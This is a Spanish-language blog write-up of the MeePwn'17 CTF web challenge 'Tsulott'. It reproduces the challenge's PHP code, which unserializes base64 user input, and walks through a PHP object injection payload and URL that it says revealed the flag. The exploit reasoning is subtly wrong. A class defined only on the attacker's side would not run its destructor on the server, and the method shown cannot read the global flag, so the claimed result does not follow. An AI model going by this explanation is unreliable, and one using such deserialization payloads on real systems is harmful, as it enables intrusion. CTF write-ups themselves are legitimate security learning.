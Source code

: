 ```yaml
---
layout: post
title:  "Meepwn Tsulott"
date:	2017-09-28 14:19:38 +0200
author: foo
categories: es ctf meepwn write-up
lang: es
ref: meepwn-web
---
```



Hace mucho tiempo que no escribo nada aquí, así que quizá ya es hora de arreglar eso...

---

**NOTA: Si quieres probar este reto por tu cuenta,
[aquí](/assets/posts/2017-09-28-meepwn-web/code.tar.gz) están todos los materiales
necesarios para hacerlo (aunque tendrás que ponerlo en un servidor que soporte PHP,
puesto que no funcionará si no).**

---


Este es el write-up del único reto que completé en el
[MeePwn'17 CTF](https://ctftime.org/event/486). Por alguna razón, la página no paraba de
decirme que "dejara de spamear flags" mientras intentaba subir la solución; así que
simplemente me di por vencido y me puse a otra cosa.

De cualquier modo, el primer reto que miré era el titulado _Tsulott_. La página web en la
que hay que buscar la bandera parece muy bonita:

{% include image.html
	src="/assets/posts/2017-09-28-meepwn-web/first_recon.jpg"
	title="Página web"
	alt="Primer reconocimiento de la página web"
%}

La primera cosa que hay que hacer es mirar en el HTML, ya que muchos de estos retos son
simples y, normalmente, hay comentarios con pistas. En este caso, hay un comentario al
final de la página que nos hace pensar que hay una opción de depuración (_debug_) y
alguien se olvidó de quitarla en producción:
```html
<center>
<font color='white'>-----------------------------------------------------------------------------------------------------------------------------</font>
<h3><font color='white'>Take code</font></h3><p>
<p><font color='white'>Pick your six numbers (Ex: 15 02 94 11 88 76)</font><p>
<form>
      <input type="text" name="gen_code" maxlength="17" /><p><p>
      <button type="submit" name="btn-submit" value="go">send</button>
</form>
</center>
<!-- GET is_debug=1 -->
</body>
```

Cosas como esta pueden pasar (aunque no tan obvias como aquí, pero aún así...), y podemos
aprovecharnos del error de alguien simplemente haciendo una petición a
`[url]/?is_debug=1`. Y _violà_, aquí está el código del servidor:

{% include image.html
	src="/assets/posts/2017-09-28-meepwn-web/code.jpg"
	title="Opción de depuración puesta a 1"
	alt="Respuesta del servidor cuando 'is_debug' está a 1"
%}

Ahora tenemos que examinar este nuevo código PHP:

{% highlight php linenos %}
<?php
    class Object
    {
        var $jackpot;
        var $enter;
    }
?>


<?php

    include('secret.php');

    if (isset ($_GET ['input']))
    {
        $obj = unserialize (base64_decode ($_GET ['input']));

        if ($obj)
        {
            $obj->jackpot = rand(10,99).' '.rand(10,99).' '.rand(10,99).' '.rand(10,99).' '.rand(10,99).' '.rand(10,99);

            if ($obj->enter === $obj->jackpot)
            {
                echo "<center><strong><font color='white'>"
                    . "CONGRATULATION! You Won JACKPOT PriZe !!!"
                    . "</font></strong></center>"
                    . "<br><center><strong>"
                    . "<font color='white' size='20'>"
                    . $obj->jackpot
                    . "</font></strong></center>";

                echo "<br><center><strong><font color='green' size='25'>"
                    . $flag . "</font></strong></center><br>";

                echo "<center><img "
                    . "src='http://www.relatably.com/m/img/"
                    . "cross-memes/5378589.jpg' /></center>";
            }
            else
            {
                echo "<br><br><center><strong>"
                    . "<font color='white'>Wrong! True Six "
                    . "Numbers Are: </font></strong></center>"
                    . "<br><center><strong><font color='white'"
                    . " size='25'>"
                    . $obj->jackpot
                    . "</font></strong></center><br>";
            }
        }
        else
        {
            echo "<center><strong><font color='white'>- Something wrong,"
                . " do not hack us please! -</font></strong></center>";
        }
    }
    else
    {
        echo "";
    }
?>

<?php
    if (isset ($_GET ['gen_code']) && !empty ($_GET ['gen_code']))
    {
        $temp = new Object;
        $temp->enter = $_GET ['gen_code'];

        $code = base64_encode (serialize ($temp));

        echo '<center><font color=\'white\'>Here is your code,"
            . " please use it to Lott: <strong>'
            . $code. '</strong></font></center>';
    }
?>

<?php
    if (isset ($_GET ['is_debug']) && $_GET ['is_debug'] === '1')
    {
        show_source (__FILE__);
    }
?>
{% endhighlight %}


Tras un par de minutos leyendo este código, podemos ver que hay un fallo en el modo de
manejar la entrada de usuario, que no es tratada correctamente (línea 16). Podemos
aprovecharnos de la deserialización para
[inyectar un objeto](https://www.owasp.org/index.php/PHP_Object_Injection), codificado en
Base64 y pasado usando el parámetro `input`.

Esta vulnerabilidad funciona del siguiente modo:

  - Creamos una clase, `Exploit`, que implementa sólo un método: `__destruct ()`. Este
	método será llamado cuando el objeto se destruya. El código de dentro puede ser tan
	sencillo como `var_dump ($flag);`

  - Un objeto, instancia de esta nueva clase, es serializado y codificado en Base64. Este
	será el valor del parámetro `input`.

  - El servidor recibe la cadena en Base64 y, tras decodificarla, llama al método
	`unserialize ()`. Este método crea un nuevo objeto con la información almacenada en
	esta cadena. En este caso, una instance de nuestra nueva clase es creada y, al
	destruirse, invoca al método `__destruct ()` que muestra el contenido de la bandera.


Aquí está la creación del _exploit_ y el resultado final:
```php
$ php -a
Interactive mode enabled

php > class Exploit
php > {
php {	function __destruct ()
php {	{
php {		var_dump ($flag);
php {	}
php { }
php > echo base64_encode (serialize (new Exploit ()));
PHP Notice:  Undefined variable: flag in php shell code on line 5
NULL
Tzo3OiJFeHBsb2l0IjowOnt9
php >
```

Cuando se accede a `/?input=Tzo3OiJFeHBsb2l0IjowOnt9`, obtenemos la bandera:


{% include image.html
	src="/assets/posts/2017-09-28-meepwn-web/flag.jpg"
	title="Exploit en acción"
	alt="Respuesta del servidor al exploit, con la bandera"
%}

Finalmente, la bandera es `MeePwnCTF{__OMG!!!__Y0u_Are_Milli0naire_N0ww!!___}`.


Me gustaría haber podido probar el resto de retos; pero, por desgracia, la página no me
dejaba subir las banderas. Sin embargo, me lo pasé bien con este reto y aprendí algo, así
que al menos dejé el CTF con buena impresión.
